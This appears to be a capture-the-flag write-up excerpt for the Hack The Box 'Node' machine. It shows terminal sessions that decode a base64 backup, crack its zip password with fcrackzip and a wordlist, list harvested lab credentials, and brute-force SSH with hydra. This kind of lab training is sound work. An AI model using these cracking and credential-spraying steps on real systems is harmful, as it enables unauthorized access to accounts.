


# 20 - MyplaceBackup


# Base64 encoded zip file

```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ file myplace.backup 
myplace.backup: ASCII text, with very long lines, with no line terminators
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ base64 -d myplace.backup  > myplace
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ file myplace
myplace: Zip archive data, at least v1.0 to extract
```

# Again a password is required however all the passwords we acquired don't work on this zip.

```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] var/www/myplace/package-lock.json password: 
```


# fcrackzip
I needed  to install it with `sudo apt install fcrackzip`
```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ fcrackzip backup.zip -D -p /usr/share/wordlists/rockyou.txt 
possible pw found: magicword ()
```

# Trying password reuse on ssh, no luck :(
```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ cat creds 
tom:spongebob
mark:snowflake
rastating:5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0
myP14ceAdm1nAcc0uNT:manchester
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ cat creds  | awk -F: '{print $1}' > users
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ cat creds  | awk -F: '{print $2}' > passwords
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ vi passwords # added  the backupfile 
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ hydra -L users  -P passwords ssh://10.10.10.58
1 of 1 target completed, 0 valid password found
```

# app.js



Highlighted url contains credentials to mongodb which again can be tried for password reuse

# Mark is a valid user on the box


